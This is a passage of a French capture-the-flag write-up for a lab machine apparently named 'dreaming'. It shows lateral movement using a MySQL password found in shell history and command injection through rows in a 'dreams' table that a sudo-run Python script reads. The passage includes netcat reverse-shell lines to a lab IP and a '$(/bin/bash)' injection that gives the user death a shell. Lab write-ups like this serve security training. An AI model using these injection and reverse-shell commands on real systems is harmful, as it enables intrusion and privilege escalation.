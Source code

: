 On ne peux pas le modifier ni le lire, juste l'executer.

Dans l'historique on retrouve le mot de passe du compte de lucien pour mysql : 
```
mysql -u lucien -p[...REDACTED...]
```
## Death
On sait que death peux executer un script python qui va recherche dans une base SQL qui se nomme **library**, nous pouvons acceder a la base SQL avec le compte de lucien.
```
mysql> show tables;
show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams; 
select * from dreams;
+---------------+------------------------------------+
| dreamer       | dream                              |
+---------------+------------------------------------+
| Alice         | Flying in the sky                  |
| Bob           | Exploring ancient ruins            |
| Carol         | Becoming a successful entrepreneur |
| Dave          | Becoming a professional musician   |
+---------------+------------------------------------+
4 rows in set (0.00 sec)

```
On retrouve les mêmes réponses présente lorsqu'on execute le script avec le compte de **death**, peut-être qu'on peu ajouter un shell directement dans SQL afin qu'il soit appeler pendant qu'on execute le script ?

Alors j'en ai test plein...
```
INSERT INTO dreams (dreamer, dream) VALUES ('bash', '-i');
INSERT INTO dreams (dreamer, dream) VALUES ('/bin/sh', 'nc -c /bin/sh 10.11.50.195 4446');
INSERT INTO dreams (dreamer, dream) VALUES ('shell', 'nc -c /bin/sh 10.11.50.195 4446');
INSERT INTO dreams (dreamer, dream) VALUES ('bash -i', 'nc -c /bin/sh 10.11.50.195 4446');
[...]
```
Et finalement, celui-ci a fonctionner et ma donner le shell de **death**
```
mysql> INSERT INTO dreams (dreamer, dream) VALUES ('bash -i', '$(/bin/bash)');
Query OK, 1 row affected (0.01 sec)
```
```
lucien@dreaming:/home/morpheus$ sudo -u death /usr/bin/python3 /home/death/getDreams.py

Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

bash + -i

death@dreaming:/home/morpheus$
```
On en profite pour récup les identifiants de death :
```
```